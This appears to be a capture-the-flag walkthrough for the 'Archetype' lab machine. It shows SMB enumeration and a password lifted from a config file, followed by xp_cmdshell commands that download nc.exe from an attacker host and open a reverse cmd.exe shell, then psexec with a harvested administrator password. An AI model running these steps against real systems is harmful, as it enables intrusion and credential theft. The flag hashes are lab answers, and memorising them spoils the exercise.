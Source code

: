 # Archetype

## Ifconfig

```
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
```

## nmap

> sudo nmap -sC -sV -A 10.10.10.27

```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
Host script results:
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-09-19T08:27:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-19T01:27:52-07:00
|_clock-skew: mean: 1h49m02s, deviation: 3h07m52s, median: 25m01s
```

## Smbclient

- List sharename

> smbclient -L 10.10.10.27

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

- Attempt to login

> smbclient //10.10.10.27/ADMIN$

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

> smbclient //10.10.10.27/backups

login success

- Get prod.dtsConfig info

> allinfo prod.dtsConfig

```
altname: PROD~1.DTS
create_time:    一  1月 20 20時20分57秒 2020 CST
access_time:    一  1月 20 20時23分02秒 2020 CST
write_time:     一  1月 20 20時23分02秒 2020 CST
change_time:    一  1月 20 20時23分18秒 2020 CST
attributes: RA (21)
stream: [::$DATA], 609 bytes
```

- Find prod.dtsConfig in backups

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
## Impacket

- Format

```
[[domain/]username[:password]@]<targetName or address>
```

> impacket-mssqlclient sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

- Use sp_configure make sure xp_cmdshell is opened

- Get command from remote

*local upload nc.exe* 

http server default port 8000

> python3 -m http.server 

*remote get nc.exe*

> xp_cmdshell powershell wget http://10.10.14.69:8000/nc.exe -outfile %TEMP%\nc.exe

*local listen port*

> nc -lvnp *port*

*remote give cmd.exe privilege*

> xp_cmdshell powershell %TEMP%\nc.exe -nv 10.10.14.69 *port* -e cmd.exe

```
user.txt
3e7b102e78218e935bf3f4951fec21a3
```

## Get powershell history file

> cd /

- Search any end at history.txt's file

> dir /s *history.txt

```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

- type the content

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

> impacket-psexec administrator@10.10.10.27

or

> impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.10.10.27

```
root.txt
b91ccec3305e98240082d4474b848528
```
